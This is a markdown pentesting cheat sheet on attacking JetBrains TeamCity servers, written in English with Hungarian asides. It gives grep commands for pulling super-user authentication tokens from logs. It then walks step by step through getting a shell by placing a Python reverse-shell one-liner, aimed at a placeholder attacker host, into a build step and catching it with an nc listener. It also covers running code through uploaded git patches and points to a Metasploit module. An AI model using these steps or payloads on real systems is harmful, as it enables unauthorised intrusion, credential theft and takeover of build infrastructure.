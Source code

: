 # TeamCity
## info
* TeamCity is a build management and continuous integration server from JetBrains.
* common port: 8111
### Interesting directories and files
* /admin
* /admin/admin.html
* TeamCity/conf/teamcity-startup.propertie
* .BuildServer/system
### Find Super User Authentication Tokens
* If we find a super user authentication token, we can login as super user using the token.
* After retrieving, we can login as administrator by entering the token in the password field and empty the username.
* Open browser with port 8111, and login, (if it is internal service - portforward it to the attack machine)
* Ha tobb token is van, akkor valszeg az uccso lesz a jo
<pre>
grep -rni 'authentication token' TeamCity/logs
grep -rni 'Super user authentication token' TeamCity/logs
grep -rni 'token' TeamCity/logs
</pre>
### Arbitrary Command Execution by Custom Script
1. Login as admin user.
2. Create a new project in admin dashboard.
3. Click "Manual" tab and fill required fields. (csak siman toltsuk ki valamivel es 'Create')
4. A new project is created.
5. In the project home, create a Build Configurations. (csak siman toltsuk ki valamivel es 'Create') (utana valami VCS szart akar kitoltetni de azt hagyjuk a francba es lepjunk vissza a project attekintohoz)
6. In the build configuration page, click "Build Steps" on the left menus. (ra kell menni a build conf-ra a project-nel 'edit' es utana a 'building steps' linkre)
7. Add build step.
8. Select "Command Line" in Runner type.
9. Put a Python reverse shell script in the "Custom script".
<pre>
export RHOST="<local-ip>";export RPORT=<local-port>;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
</pre>
10. Start listener in local machine.
<pre>
nc -lvnp 4444
</pre>
11. Click "Run" button in the build page. (eloszor el kell menteni es aztan utana ott lesz a 'run' gomb jobbra fent es arra kell ramenni)
12. We should get a shell in terminal.
### Arbitrary Command Execution by Diff Build
* If we can modify a building script, we can execute arbitrary script by uploading a git patch file.
* First, modify the script to our desired code.
<pre>
cd /path/to/repository
vim example.ps
git diff > patch
</pre>
* Then go to the build configuration page, and open the "Run Custom Build" at the right of the Run button.
* In General section, check "run as personal build" and upload the patch file which was generated above.
* Now click "Run Build". Our arbitrary code will be executed when building.
### Metasploit module (nem teszteltuk eddig) (felepult session kell hozza)
* https://github.com/kacperszurek/pentest_teamcity
* ha van mar session-unk es valahogy elerjuk az oldalt normalisan (?kivulrol vagy belulrol - ki tudja...) akkor lehet csapatni
* msf6> use post/jetbrains
## sources
* https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/
